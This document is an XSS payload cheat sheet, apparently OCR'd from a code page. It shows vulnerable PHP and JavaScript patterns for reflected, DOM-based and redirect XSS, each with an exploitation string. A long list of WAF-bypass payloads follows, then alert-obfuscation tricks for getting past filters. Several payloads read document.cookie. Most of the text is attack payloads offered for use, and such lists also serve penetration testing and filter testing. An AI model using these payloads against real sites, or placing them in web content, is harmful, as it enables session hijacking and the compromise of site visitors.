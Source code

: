 ```js
Reflected XSS in Javascript
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
DOM-based XSS
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
XSS via request Redirection
Vulnerable code:
...
header('Location: '.$_GET['param']);
...
As well as:

..
header('Refresh: 0; URL='.$_GET['param']);
...
This request will not pass through the WAF:
/?param=<javascript:alert(document.cookie>)

This request will pass through the WAF and an XSS attack will be conducted in certain browsers.
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

WAF ByPass Strings for XSS.
<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">
<Video> <source onerror = "javascript: alert (XSS)">
<Input value = "XSS" type = text>
<applet code="javascript:confirm(document.cookie);">
<isindex x="javascript:" onmouseover="alert(XSS)">
"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
"><img src="x:x" onerror="alert(XSS)">
"><iframe src="javascript:alert(XSS)">
<object data="javascript:alert(XSS)">
<isindex type=image src=1 onerror=alert(XSS)>
<img src=x:alert(alt) onerror=eval(src) alt=0>
<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert(1)">X
</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
<style>//*{x:expression(alert(/xss/))}//<style></style>
On Mouse Over​
<img src="/" =_=" title="onerror='prompt(1)'">
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<form><button formaction=javascript&colon;alert(1)>CLICKME
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>
Filter Bypass Alert Obfuscation
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
```